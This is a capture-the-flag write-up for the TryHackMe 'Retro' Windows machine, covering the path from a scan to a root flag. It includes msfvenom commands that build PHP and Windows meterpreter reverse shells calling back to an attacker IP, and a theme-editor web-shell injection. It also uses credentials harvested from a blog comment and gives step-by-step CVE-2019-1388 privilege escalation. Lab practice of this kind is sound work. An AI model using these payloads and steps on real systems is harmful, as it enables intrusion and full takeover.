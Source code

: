 # Retro [TryHackMe]

<sup>This write-up covers the steps to root Retro machine on TryHackMe platform.</sup>

First let's scan the target:

```bash
nmap -A 10.10.67.61 -oN general.scan
```

The ports we got from this scan are `80` and `3389`. I think the room's questions suggest that the attack vector is supposed to be web related. Let's check it out:

```
firefox 10.10.67.61
```

The facing web page is a default of IIS Windows Server, like it says in the scan. Let's put it through `feroxbuster`

```
feroxbuster -u http://10.10.67.61 -w /usr/share/wordlists/seclists/Dicovery/Web-Content/big.txt -o ferox.scan
```

We got a path `/retro` and it seems to be the answer to the first question in the room. While I was answering that question, it became apparent that `retro` is running on wordpress, because a lot of wordpress related standard paths have showed up in the scan, like `wp-admin`, `wp-content`, `wp-includes`, etc.

The hind in the room's second question states:

> Don't leave sensitive information out in the open, even if you think you have control over it.

So I assume there's something on the website. I read through all blog posts and couldn't find anything, until I realized it must be in the comments. Sure enough, in the comments of the blog post "__Ready Player One__" Wade (author of the blog) left himself a note, which looks suspiciously like a password.

I tried a `wade:parzival` login-password pair on `wp-login.php` path and I entered the dashboard!

I will try, as usual to use a Theme Editor on the left under Appearance section and load one of the php pages with a reverse shell. I'll use the shell from [here](https://github.com/pentestmonkey/php-reverse-shell). 

Trying to simulate basic stealth, I chose a 404 page. The pentest monkey shell didn't work, something about the `uname` not being recognized as internal or external command. I didn't dive deep into it, just used `meterpreter` instead:

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.14.99.123 LPORT=9233 -f raw
```

And started a listener:

```
msfconsole -qx "use exploit/multi/handler;set payload php/meterpreter/reverse_tcp; set LHOST 10.14.99.123; set LPORT 9233; run"
```

And received a shell when I triggered a `404.php`:

```
[*] Started reverse TCP handler on 10.14.99.123:9233
[*] Sending stage (40004 bytes) to 10.10.67.61
[*] Meterpreter session 1 opened (10.14.99.123:9233 -> 10.10.67.61:50042) at 2025-04-08 15:14:01 -0400

(Meterpreter 1)(C:\inetpub\wwwroot\retro) >
```

This is all well and good as we can look around, but `php/windows` meterpreter isn't any good, because it has no useful post-ex modules and we have no permissions or privilege. Let's try port `3389` to try to log into the Windows server, via RDP with `wade:parzival`.

```
xfreerdp /v:10.10.67.61 /u:wade /p:parzival /cert:ignore +clipboard
```

This works and the first flag is on the user's desktop under `user.txt`. Now we will need some privesc to find `root.txt`. I am going to use `msfvenom`, the room suggests the same.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.14.99.123 LPORT=6565 -f exe -o shell.exe
```

Then upload this shell to user's desktop, run the `msfconsole`'s listener and run the executable.

```
[*] Started reverse TCP handler on 10.14.99.123:6565
[*] Sending stage (203846 bytes) to 10.10.67.61
[*] Meterpreter session 1 opened (10.14.99.123:6565 -> 10.10.67.61:50109) at 2025-04-08 15:51:31 -0400

(Meterpreter 1)(C:\Users\Wade\Desktop) >
```

While this shell is much more stable, the privesc modules don't do us any good here either. <sup>Assisted by [write-up](https://www.hackingarticles.in/retro-tryhackme-walkthrough/) I will follow the hint in the room and start from Google chrome. On the bookmarks bar there is a bookmark for `CVE-2019-1388`. To exploit this vulnerability we need an HTML help control file, which is in the Recycle Bin on Desktop.

We need to open this file "As Administrator", Click "Show more details", then "Show information about the publisher's certificate", then the link next to "Issued By", and choose Internet Explorer. 

After that go to settings -> File -> Save as... Navigate to `C:\Windows\System32`. Type `*.*` in the file name field to list all files. Find `cmd.exe`, right click it and open it. 
What happened is, Internet Explorer was accidentally run as administrator, because the app that linked to the website was running as administrator so when trying to access a filesystem from Internet Explorer, we could run anything as a system user. 

Now in cmd, navigate to `C:\Users\Administrator\Desktop`, you'll see a file `root.txt.txt` there:

```
type root.txt.txt
```

There's our flag!
